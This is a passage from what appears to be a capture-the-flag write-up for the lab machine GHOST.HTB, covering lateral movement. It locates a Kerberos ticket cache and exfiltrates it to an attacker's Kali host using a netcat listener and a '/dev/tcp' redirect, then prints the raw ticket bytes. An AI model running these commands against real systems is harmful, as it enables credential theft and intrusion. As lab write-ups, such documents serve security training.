 ## 8. Lateral movement with Kerberos cache ticket

Kerberos ticket found at `/tmp/krb5cc_50`:

```console
florence.ramirez@LINUX-DEV-WS01:~$ env
env
SHELL=/bin/bash
KRB5CCNAME=FILE:/tmp/krb5cc_50
PWD=/home/GHOST/florence.ramirez
LOGNAME=florence.ramirez
MOTD_SHOWN=pam
HOME=/home/GHOST/florence.ramirez
SSH_CONNECTION=172.18.0.3 53590 172.18.0.2 22
USER=florence.ramirez
SHLVL=2
LC_CTYPE=C.UTF-8
SSH_CLIENT=172.18.0.3 53590 22
PATH=/usr/local/bin:/usr/bin:/bin:/usr/local/games:/usr/games
_=/usr/bin/env
OLDPWD=/tmp
```

### 8.1. Transfer the ticket to Kali

Setup a listener to receive the file:

```sh
nc -nvlp 4445 -q 1 > /tmp/krb5cc_50 < /dev/null
```

Simply `cat` the ticket to `/dev/tcp`

```sh
cat /tmp/krb5cc_50 > /dev/tcp/<kali-ip>/4445
```

```console
root@kali:~# nc -nvlp 4445 -q 1 > /tmp/krb5cc_50 < /dev/null
listening on [any] 4445 ...
connect to [10.10.14.17] from (UNKNOWN) [10.10.11.24] 49826

root@kali:~# cat /tmp/krb5cc_50

        GHOST.HTBflorence.ramirez       GHOST.HTBflorence.ramirez
                                                                 X-CACHECONF:krb5_ccache_conf_datapa_type␦krbtgt/GHOST.HTB@GHOST.HTB2   GHOST.HTBflorence.ramirez       GHOST.HTBkrbtgt GHOST.HTB d��
�[���A�������݈/.�*=R׺jSaf�x�f�x�f�)f��  ��a��0���
                                                        HOST.HTB�0��0rbtgt      HOST.HTB���0������������+n�n��A1���2`eL�J��ӛ���X���m�9%�p␦QQM����3�X��Q���ƒ     ��q�J���
                                                                                                                                                                        � C�x9p`�
                                                                                                                                                                                 `,␦$z����␦%��ܥh������/����G��2�K
,�
Ĝla*UAA����␦0;�Z�@�$M�=q $
                          1��k
                              6Ҵ        Mz��vu�K �s��۝�;��8r'"l%6�l�r��>2PiڭZx�2&��O
                                                                                    �|�
                                                                                       �ʸ��5��/'�>���$�9���֝(d(����!�4�Ҋ���6��m�����t1�q���f�m�Rzz�7ζ��i
d�?HS?���K+�a�cs���N�8:0nsm>q]g��u6���Y���%��Xo2o�+�B��ê��+{�}K6�|�hk�C�y�X�|�6i��L���X,���l>.۬�ʊ����ܬ����(                                             M��r�,X�ui�']�
�O��H����:oմ��>�<���)>�I����ͨ�Cڝ%�O?����!��<�K��Ȓp�|cU��`���X6�0hD��L5���x�GP��h@bdX�f]�2&�9�␦  ѯ�����j
```